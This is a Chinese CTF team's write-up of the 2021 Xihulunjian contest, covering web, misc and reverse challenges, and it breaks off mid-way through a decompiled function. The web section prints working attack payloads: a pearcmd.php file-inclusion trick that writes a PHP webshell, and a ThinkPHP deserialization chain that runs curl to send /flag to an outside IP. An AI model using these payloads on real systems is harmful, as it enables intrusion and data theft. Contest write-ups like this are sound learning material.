以下是我们 SU 本次 西湖论剑线上赛 的 writeup 
同时我们也在持续招人，只要你拥有一颗热爱 CTF 的心，都可以加入我们！欢迎发送个人简介至：[suers_xctf@126.com](mailto:suers_xctf@126.com)或直接联系书鱼(QQ:381382770)

<!--more-->


## Web

### **web1**

是个信呼的web应用，老洞都打不了，没有给写入的权限，

所以我们需要去找新的利用点



这个地方把他生成的方法类中的displayfile传入到了下面的mpathname中




于是在这个位置就可能会造成

文件包含

然后全局搜索一下那个displayfile

发现在webmain/index/indexAction.php中的getshtmlAction方法里传入一个surl，然后经过拼接传入到了displayfile中，而surl是我们可控的，所以这里确实存在一个文件包含




这里因为拼接了后缀为php，而我们没有上传文件的权限，所以只能包含已经有的文件。然后就想到前阵子p神提出的pearcmd.php的利用。
```php
/?+config-create+/&m=index&a=getshtml&surl=Li4vLi4vLi4vLi4vdXNyL2xvY2FsL2xpYi9waHAvcGVhcmNtZA==&/<?=system($_POST[0])?>+/tmp/a.php
```
然后再去包含生成的a.php就可以rce
```php
index.php?m=index&a=getshtml&surl=Li4vLi4vLi4vLi4vdXNyL2xvY2FsL2xpYi9waHAvcGVhcmNtZA==

POST

0=system('/readflag');

```


### EZupload

描述:环境每两分钟重置一次。

- .user.ini(auto_prepend_file="/flag")
- 访问Latte的tempdir缓存php文件（2.10.4版本）就可触发.user.ini


### TP

先file结合过滤器取读取控制器代码，这里有个直接反序列点；利用tp的路由规则直接来打；2333///public绕一下parse_url就可；

我之前发过两个thinkphp的另反序列化链；

https://www.freebuf.com/articles/web/263458.html

用其中第一个链直接打，然后curl将文件发送过来就可；

```php
<?php

\#bash回显；网页不回显；

namespace League\Flysystem\Cached\Storage{

abstract class AbstractCache

{

 protected $autosave = false;

 protected $complete = [];

 protected $cache = ['`curl -X POST -F xx=@/flag http://120.53.29.60:9900`'];

 }

}

namespace think\filesystem{

use League\Flysystem\Cached\Storage\AbstractCache;

class CacheStore extends AbstractCache

{

 protected $store;

 protected $key;

 public function __construct($store,$key,$expire)

 {

 $this->key = $key;

 $this->store = $store;

 $this->expire = $expire;

 }

}

}

namespace think\cache{

abstract class Driver{

}

}

namespace think\cache\driver{

use think\cache\Driver;

class File extends Driver

{

 protected $options = [

 'expire' => 0,

 'cache_subdir' => false,

 'prefix' => false,

 'path' => 's1mple',

 'hash_type' => 'md5',

 'serialize' => ['system'],

 ];

}

}

namespace{

$b = new think\cache\driver\File();

$a = new think\filesystem\CacheStore($b,'s1mple','1111');

echo urlencode(serialize($a));

}

```

监听一下就行；

### 灏妹的web

这题是个信息泄漏，扫一下目录；/.idea/dataSources.xml

这个文件里直接有flag；


## Misc

### 真·签到 

进入西湖论剑网络安全大赛微信公众号，发送语音说出“西湖论剑2021，我来了。”即可获得本题 flag：） 


### yusa的小秘密

Ycrcb隐写提取得到图片，放stegsolve中得到flag




## Reverse

### ROR

`main` 函数很清晰



Z3 一把梭

```c++
import z3


CHARSET = [0x65, 0x08, 0xF7, 0x12, 0xBC, 0xC3, 0xCF, 0xB8, 0x83, 0x7B,

           0x02, 0xD5, 0x34, 0xBD, 0x9F, 0x33, 0x77, 0x76, 0xD4, 0xD7,

           0xEB, 0x90, 0x89, 0x5E, 0x54, 0x01, 0x7D, 0xF4, 0x11, 0xFF,

           0x99, 0x49, 0xAD, 0x57, 0x46, 0x67, 0x2A, 0x9D, 0x7F, 0xD2,

           0xE1, 0x21, 0x8B, 0x1D, 0x5A, 0x91, 0x38, 0x94, 0xF9, 0x0C,

           0x00, 0xCA, 0xE8, 0xCB, 0x5F, 0x19, 0xF6, 0xF0, 0x3C, 0xDE,

           0xDA, 0xEA, 0x9C, 0x14, 0x75, 0xA4, 0x0D, 0x25, 0x58, 0xFC,

           0x44, 0x86, 0x05, 0x6B, 0x43, 0x9A, 0x6D, 0xD1, 0x63, 0x98,

           0x68, 0x2D, 0x52, 0x3D, 0xDD, 0x88, 0xD6, 0xD0, 0xA2, 0xED,

           0xA5, 0x3B, 0x45, 0x3E, 0xF2, 0x22, 0x06, 0xF3, 0x1A, 0xA8,

           0x09, 0xDC, 0x7C, 0x4B, 0x5C, 0x1E, 0xA1, 0xB0, 0x71, 0x04,

           0xE2, 0x9B, 0xB7, 0x10, 0x4E, 0x16, 0x23, 0x82, 0x56, 0xD8,

           0x61, 0xB4, 0x24, 0x7E, 0x87, 0xF8, 0x0A, 0x13, 0xE3, 0xE4,

           0xE6, 0x1C, 0x35, 0x2C, 0xB1, 0xEC, 0x93, 0x66, 0x03, 0xA9,

           0x95, 0xBB, 0xD3, 0x51, 0x39, 0xE7, 0xC9, 0xCE, 0x29, 0x72,

           0x47, 0x6C, 0x70, 0x15, 0xDF, 0xD9, 0x17, 0x74, 0x3F, 0x62,

           0xCD, 0x41, 0x07, 0x73, 0x53, 0x85, 0x31, 0x8A, 0x30, 0xAA,

           0xAC, 0x2E, 0xA3, 0x50, 0x7A, 0xB5, 0x8E, 0x69, 0x1F, 0x6A,

           0x97, 0x55, 0x3A, 0xB2, 0x59, 0xAB, 0xE0, 0x28, 0xC0, 0xB3,

           0xBE, 0xCC, 0xC6, 0x2B, 0x5B, 0x92, 0xEE, 0x60, 0x20, 0x84,

           0x4D, 0x0F, 0x26, 0x4A, 0x48, 0x0B, 0x36, 0x80, 0x5D, 0x6F,

           0x4C, 0xB9, 0x81, 0x96, 0x32, 0xFD, 0x40, 0x8D, 0x27, 0xC1,

           0x78, 0x4F, 0x79, 0xC8, 0x0E, 0x8C, 0xE5, 0x9E, 0xAE, 0xBF,

           0xEF, 0x42, 0xC5, 0xAF, 0xA0, 0xC2, 0xFA, 0xC7, 0xB6, 0xDB,

           0x18, 0xC4, 0xA6, 0xFE, 0xE9, 0xF5, 0x6E, 0x64, 0x2F, 0xF1,

           0x1B, 0xFB, 0xBA, 0xA7, 0x37, 0x8F]

cipher = [101,  85,  36,  54, 157, 113, 184, 200, 101, 251,

              135, 127, 154, 156, 177, 223, 101, 143, 157,  57,

              143,  17, 246, 142, 101,  66, 218, 180, 140,  57,

              251, 153, 101,  72, 106, 202,  99, 231, 164, 121]

PLAIN = [z3.BitVec("p%d" % i, 8)for i in range(40)]

SHIFT = [0]*8

SHIFT[0] = 128

SHIFT[1] = 64

SHIFT[2] = 32

SHIFT[3] = 16

SHIFT[4] = 8

SHIFT[5] = 4

SHIFT[6] = 2

SHIFT[7] = 1

s = z3.Solver()

for i in range(0, 0x28, 8):

  for j in range(8):

    left = ((SHIFT[j] & PLAIN[i + 3]) << (8 - (3 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 3]) >> ((3 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 2]) << (8 - (2 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 2]) >>

                                                                                                                                                                 ((2 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 1]) << (8 - (1 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 1]) >> ((1 - j) % 8)) | ((SHIFT[j] & PLAIN[i]) << (8 - -j % 8)) | ((SHIFT[j] & PLAIN[i]) >> (-j % 8))

    right = ((SHIFT[j] & PLAIN[i + 7]) << (8 - (7 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 7]) >> ((7 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 6]) << (8 - (6 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 6]) >> ((6 - j) % 8)

                                                                                                                                                                  ) | ((SHIFT[j] & PLAIN[i + 5]) << (8 - (5 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 5]) >> ((5 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 4]) << (8 - (4 - j) % 8)) | ((SHIFT[j] & PLAIN[i + 4]) >> ((4 - j) % 8))

    s.add(left | right == CHARSET.index(cipher[i+j]))

sat = s.check()

m = s.model()

flag = []

for _ in PLAIN:

  tmp = m[_].as_long()

  flag .append(chr(tmp))

print(''.join(flag))
```

### TacticalArmed

1. `TLSCallback0` 里头起了个线程

1. 线程填充 key



1. `initterm` 里面有反调试



1. 这个线程在跑起来之后 IDA 的调试功能就没法用了，所以 patch 掉函数指针



1. 核心部分每次执行的其实都只是一条指令
2. 手动 dump 前面的指令，发现大量的 shr xor 等操作，猜测是 tea，然后发现 delta 变成了 -0x7E5A96D2，密钥是初始化时赋值的，外层循环也能发现轮数改为了 33，并且每次加密后 sum 并没有置为 0


exp

```c++
#include <stdint.h>

#include <stdio.h>

#define DELTA -0x7E5A96D2

#define NUM 33

uint32_t gs = 0;

void decrypt(uint32_t* v, uint32_t* k) {

  uint32_t v0 = v[0], v1 = v[1], sum = gs, i;          /* set up */

  uint32_t k0 = k[0], k1 = k[1], k2 = k[2], k3 = k[3]; /* cache key */

  for (i = 0; i < NUM; i++) {                          /* basic cycle start */

    v1 -= ((v0 << 4) + k2) ^ (v0 + sum) ^ ((v0 >> 5) + k3);

    v0 -= ((v1 << 4) + k0) ^ (v1 + sum) ^ ((v1 >> 5) + k1);

    sum -= DELTA;

  } /* end cycle */

  v[0] = v0;

  v[1] = v1;

}

int main() {

  uint32_t key[] = {0x7CE45630, 0x58334908, 0x66398867, 0x0C35195B1};

  int8_t cipher[40] = {0xED, 0x1D, 0x2F, 0x42, 0x72, 0xE4, 0x85, 0x14, 0xD5, 0x78,

                       0x55, 0x03, 0xA2, 0x80, 0x6B, 0xBF, 0x45, 0x72, 0xD7, 0x97,

                       0xD1, 0x75, 0xAE, 0x2D, 0x63, 0xA9, 0x5F, 0x66, 0x74, 0x6D,

                       0x2E, 0x29, 0xC1, 0xFC, 0x95, 0x97, 0xE9, 0xC8, 0xB5, 0x0B};

  for (int i = 0; i < 40; i += 8) {

    gs += DELTA * NUM;

    decrypt((uint32_t*)(cipher + i), key);

  }

  printf("%s\n",cipher);

}
```

flag `kgD1ogB2yGa2roiAeXiG8_aqnLzCJ_rFHSPrn55K`

### gghdl

搜索字符串：**Wrong** 定位关键点。

```c++
__int64 __fastcall sub_55CFAE51DCE0(__int64 a1)

{

  int v2; // ebx

  int *v3; // r12

  __int64 v4; // rbp

  __int64 v5; // rbp

  __int64 v6; // rbp

  int *v7; // rbx

  __int64 v8; // r12

  unsigned int v9; // er15

  int v10; // ebp

  char v11; // bp

  __int64 v12; // r15

  unsigned int v13; // ebp

  int v14; // ebp

  char v15; // bp

  __int64 v16; // r15

  unsigned int v17; // ebp

  int v18; // ebp

  char v19; // bp

  __int64 v20; // r15

  unsigned int v21; // ebp

  int v22; // ebp

  char v23; // bp

  __int64 v24; // r15

  unsigned int v25; // ebp

  int v26; // ebp

  char v27; // bp

  int v28; // ecx

  bool v29; // al

  __int64 v30; // r15

  unsigned int v31; // ebp

  int v32; // ebp

  char v33; // bp

  __int64 v34; // rbp

  __int64 v35; // rbp

  __int64 result; // rax

  int v37; // ebx

  __int64 v38; // rbp

  __int64 v39; // rbp

  __int64 v40; // rax

  __int64 v41; // rbp

  __int64 v42; // r15

  int v43; // ebp

  __int64 v44; // rbp

  __int64 i; // rbx

  _BYTE *v46; // rdi

  bool v47; // al

  int v48[2]; // [rsp+8h] [rbp-320h] BYREF

  char v49; // [rsp+10h] [rbp-318h]

  int v50; // [rsp+14h] [rbp-314h]

  int v51[2]; // [rsp+18h] [rbp-310h] BYREF

  char v52; // [rsp+20h] [rbp-308h]

  int v53; // [rsp+24h] [rbp-304h]

  int v54[2]; // [rsp+28h] [rbp-300h] BYREF

  char v55; // [rsp+30h] [rbp-2F8h]

  int v56; // [rsp+34h] [rbp-2F4h]

  int v57[2]; // [rsp+38h] [rbp-2F0h] BYREF

  char v58; // [rsp+40h] [rbp-2E8h]

  int v59; // [rsp+44h] [rbp-2E4h]

  int v60[2]; // [rsp+48h] [rbp-2E0h] BYREF

  char v61; // [rsp+50h] [rbp-2D8h]

  int v62; // [rsp+54h] [rbp-2D4h]

  int v63[2]; // [rsp+58h] [rbp-2D0h] BYREF

  char v64; // [rsp+60h] [rbp-2C8h]

  int v65; // [rsp+64h] [rbp-2C4h]

  int v66[2]; // [rsp+68h] [rbp-2C0h] BYREF

  char v67; // [rsp+70h] [rbp-2B8h]

  int v68; // [rsp+74h] [rbp-2B4h]

  __int64 v69; // [rsp+78h] [rbp-2B0h] BYREF

  char v70; // [rsp+80h] [rbp-2A8h]

  __int64 v71; // [rsp+88h] [rbp-2A0h]

  __int64 v72; // [rsp+90h] [rbp-298h]

  __int64 v73; // [rsp+98h] [rbp-290h]

  __int64 v74; // [rsp+A0h] [rbp-288h]

  __int64 v75; // [rsp+A8h] [rbp-280h]

  __int64 v76; // [rsp+B0h] [rbp-278h]

  int v77; // [rsp+B8h] [rbp-270h] BYREF

  __int64 v78; // [rsp+C0h] [rbp-268h]

  __int64 v79[2]; // [rsp+C8h] [rbp-260h] BYREF

  char v80; // [rsp+D8h] [rbp-250h]

  int v81; // [rsp+DCh] [rbp-24Ch]

  int v82; // [rsp+E0h] [rbp-248h] BYREF

  __int64 v83; // [rsp+E8h] [rbp-240h]

  __int64 v84[2]; // [rsp+F0h] [rbp-238h] BYREF

  char v85; // [rsp+100h] [rbp-228h]

  int v86; // [rsp+104h] [rbp-224h]

  __int64 v87; // [rsp+108h] [rbp-220h]

  int *v88; // [rsp+110h] [rbp-218h]

  int v89; // [rsp+118h] [rbp-210h] BYREF

  __int64 v90; // [rsp+120h] [rbp-208h]

  __int64 v91[2]; // [rsp+128h] [rbp-200h] BYREF

  char v92; // [rsp+138h] [rbp-1F0h]

  int v93; // [rsp+13Ch] [rbp-1ECh]

  int v94; // [rsp+140h] [rbp-1E8h] BYREF

  __int64 v95; // [rsp+148h] [rbp-1E0h]

  int v96; // [rsp+150h] [rbp-1D8h] BYREF

  __int64 v97; // [rsp+158h] [rbp-1D0h]

  __int64 v98[2]; // [rsp+160h] [rbp-1C8h] BYREF

  char v99; // [rsp+170h] [rbp-1B8h]

  int v100; // [rsp+174h] [rbp-1B4h]

  __int64 v101[2]; // [rsp+178h] [rbp-1B0h] BYREF

  __int64 v102[2]; // [rsp+188h] [rbp-1A0h] BYREF

  __int64 v103[2]; // [rsp+198h] [rbp-190h] BYREF

  __int64 v104; // [rsp+1A8h] [rbp-180h] BYREF

  __int64 v105; // [rsp+1B0h] [rbp-178h]

  __int64 v106[2]; // [rsp+1B8h] [rbp-170h] BYREF

  __int64 v107[2]; // [rsp+1C8h] [rbp-160h] BYREF

  __int64 v108; // [rsp+1D8h] [rbp-150h] BYREF

  __int64 v109; // [rsp+1E0h] [rbp-148h]

  __int64 v110[2]; // [rsp+1E8h] [rbp-140h] BYREF

  __int64 v111[2]; // [rsp+1F8h] [rbp-130h] BYREF

  __int64 v112; // [rsp+208h] [rbp-120h] BYREF

  __int64 v113; // [rsp+210h] [rbp-118h]

  __int64 v114[2]; // [rsp+218h] [rbp-110h] BYREF

  __int64 v115[2]; // [rsp+228h] [rbp-100h] BYREF

  __int64 v116; // [rsp+238h] [rbp-F0h] BYREF

  __int64 v117; // [rsp+240h] [rbp-E8h]

  __int64 v118[2]; // [rsp+248h] [rbp-E0h] BYREF

  __int64 v119[2]; // [rsp+258h] [rbp-D0h] BYREF

  __int64 v120; // [rsp+268h] [rbp-C0h] BYREF

  __int64 v121; // [rsp+270h] [rbp-B8h]

  __int64 v122[2]; // [rsp+278h] [rbp-B0h] BYREF

  __int64 v123[2]; // [rsp+288h] [rbp-A0h] BYREF

  __int64 v124; // [rsp+298h] [rbp-90h] BYREF

  __int64 v125; // [rsp+2A0h] [rbp-88h]

  __int64 v126[2]; // [rsp+2A8h] [rbp-80h] BYREF

  __int64 v127; // [rsp+2B8h] [rbp-70h] BYREF

  __int64 v128; // [rsp+2C0h] [rbp-68h]

  __int64 v129[2]; // [rsp+2C8h] [rbp-60h] BYREF

  __int64 v130[3]; // [rsp+2D8h] [rbp-50h] BYREF

  __int64 v131; // [rsp+2F0h] [rbp-38h]


  v2 = *(_DWORD *)(a1 + 276);

  v76 = (__int64)&unk_55CFAE5CC400 + 8;

  v75 = (__int64)&unk_55CFAE5CC440 + 8;

  v74 = (__int64)&unk_55CFAE5CC480 + 8;

  v73 = (__int64)&unk_55CFAE5CC4C0 + 8;

  v72 = (__int64)&unk_55CFAE5CC500 + 8;

  v71 = (__int64)&unk_55CFAE5CC540 + 8;

  v3 = (int *)&unk_55CFAE5F5C58;

  while ( 1 )

  {

    switch ( v2 )

    {

      case 0:

        *(_DWORD *)(a1 + 272) = 0;

        v4 = sub_55CFAE532BBC();

        v98[0] = *(_QWORD *)(a1 + 256);

        v130[0] = (__int64)"Input Flag";

        v130[1] = (__int64)&unk_55CFAE5CC628;

        v98[1] = (__int64)v130;

        v99 = 0;

        v100 = 0;

        sub_55CFAE51BF90(v98);

        *(_QWORD *)(a1 + 256) = v98[0];

        sub_55CFAE532C32(v4);

        v5 = sub_55CFAE532BBC();

        v96 = *v3;

        v97 = *(_QWORD *)(a1 + 256);

        sub_55CFAE51B790(&v96);

        *(_QWORD *)(a1 + 256) = v97;

        sub_55CFAE532C32(v5);

        v6 = sub_55CFAE532BBC();

        v94 = unk_55CFAE5F5C54;

        v95 = *(_QWORD *)(a1 + 240);

        sub_55CFAE518B50(&v94);

        *(_QWORD *)(a1 + 240) = v95;

        sub_55CFAE532C32(v6);

        v131 = *(_QWORD *)(a1 + 240);

        v130[2] = v131 + 16;

        v2 = 2;

        if ( *(unsigned int *)(v131 + 12) >= 0x2CuLL )

          v2 = 1;

        continue;

      case 1:

        *(_QWORD *)(a1 + 280) = 0x2C00000001LL;

        v2 = 6;

        continue;

      case 2:

        v34 = sub_55CFAE532BBC();

        v91[0] = *(_QWORD *)(a1 + 248);

        v129[0] = (__int64)"Wrong!";

        v129[1] = (__int64)&unk_55CFAE5CC658;

        v91[1] = (__int64)v129;

        v92 = 0;

        v93 = 0;

        sub_55CFAE51BF90(v91);

        *(_QWORD *)(a1 + 248) = v91[0];

        sub_55CFAE532C32(v34);

        v35 = sub_55CFAE532BBC();

        v89 = *v3;

        v90 = *(_QWORD *)(a1 + 248);

        sub_55CFAE51B790(&v89);

        *(_QWORD *)(a1 + 248) = v90;

        sub_55CFAE532C32(v35);

        result = sub_55CFAE533790();

        *(_DWORD *)(a1 + 276) = 3;

        return result;

      case 3:

        sub_55CFAE53CB90("hello.vhdl", 43LL, 6LL);

      case 4:

        v2 = 5;

        if ( *(_DWORD *)(a1 + 280) != *(_DWORD *)(a1 + 284) )

        {

          ++*(_DWORD *)(a1 + 280);

          v2 = 6;

        }

        continue;

      case 5:

        v37 = *(_DWORD *)(a1 + 272);

        v38 = sub_55CFAE532BBC();

        if ( v37 == 44 )

        {

          v84[0] = *(_QWORD *)(a1 + 248);

          v102[0] = (__int64)&unk_55CFAE5CC688;

          v102[1] = (__int64)&unk_55CFAE5CC678;

          v84[1] = (__int64)v102;

          v85 = 0;

          v86 = 0;

          sub_55CFAE51BF90(v84);

          *(_QWORD *)(a1 + 248) = v84[0];

          sub_55CFAE532C32(v38);

          v39 = sub_55CFAE532BBC();

          v82 = *v3;

          v83 = *(_QWORD *)(a1 + 248);

          sub_55CFAE51B790(&v82);

          v40 = v83;

        }

        else

        {

          v79[0] = *(_QWORD *)(a1 + 248);

          v101[0] = (__int64)"Wrong!";

          v101[1] = (__int64)&unk_55CFAE5CC698;

          v79[1] = (__int64)v101;

          v80 = 0;

          v81 = 0;

          sub_55CFAE51BF90(v79);

          *(_QWORD *)(a1 + 248) = v79[0];

          sub_55CFAE532C32(v38);

          v39 = sub_55CFAE532BBC();

          v77 = *v3;

          v78 = *(_QWORD *)(a1 + 248);

          sub_55CFAE51B790(&v77);

          v40 = v78;

        }

        *(_QWORD *)(a1 + 248) = v40;

        sub_55CFAE532C32(v39);

        result = sub_55CFAE533790();

        *(_DWORD *)(a1 + 276) = 8;

        return result;

      case 6:

        v41 = sub_55CFAE532BBC();

        v69 = *(_QWORD *)(a1 + 240);

        v70 = 0;

        sub_55CFAE519B90(&v69);

